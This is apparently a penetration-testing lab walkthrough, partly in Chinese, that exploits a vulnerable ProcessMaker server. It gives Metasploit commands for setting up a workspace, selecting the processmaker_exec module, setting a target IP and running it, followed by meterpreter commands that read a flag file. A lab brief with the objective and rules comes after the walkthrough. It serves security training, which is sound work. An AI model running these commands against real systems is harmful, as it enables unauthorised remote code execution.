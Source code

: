 We'll create a workspace for this particular activity, so we can segregate our different projects that we're working on.

```
workspace -a ProcessMaker
workspace
```

This will ensure that your various engagements, or assessments, as a penetration tester, are sorted and kept separate from the other ones that you do.

For every new engagement always create a new workspace.

Search for the exploit.

```
search ProcessMaker
use exploit/multi/http/processmaker_exec
show options
set RHOSTS 10.4.23.85
exploit
```

We now have obtained initial access on the target system.

```
meterpreter > pwd
meterpreter > cd /
meterpreter > pwd
meterpreter > ls
meterpreter > cat flag.txt
```

From this point onwards you can start performing local enumeration, or the typical activities pertinent to post-exploitation.

But, I just wanted to showcase how you can utilize the Metasploit Framework for exploitation.

# Windows: Workflow Platform（Windows：工作流平台）
## Overview（概述）
A Kali GUI machine and a target machine running a vulnerable workflow platform server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).  

Your task is to fingerprint the application using the tools available on the Kali machine and then exploit the application using the appropriate Metasploit module.

Objective: Exploit the application and retrieve the flag!

为您提供了一台 Kali GUI 机器和一台运行易受攻击的工作流平台服务器的目标机器。目标机器的 IP 地址在位于 Kali 机器桌面 (/root/Desktop/target) 上的名为 target 的文本文件中提供。  

您的任务是使用 Kali 机器上可用的工具对应用程序进行指纹识别，然后使用适当的 Metasploit 模块利用该应用程序。

目标：利用应用程序并取回标志！

Instructions:
* Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y. 
* The IP address of the target machine is mentioned in the file “/root/Desktop/target” 
* Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1
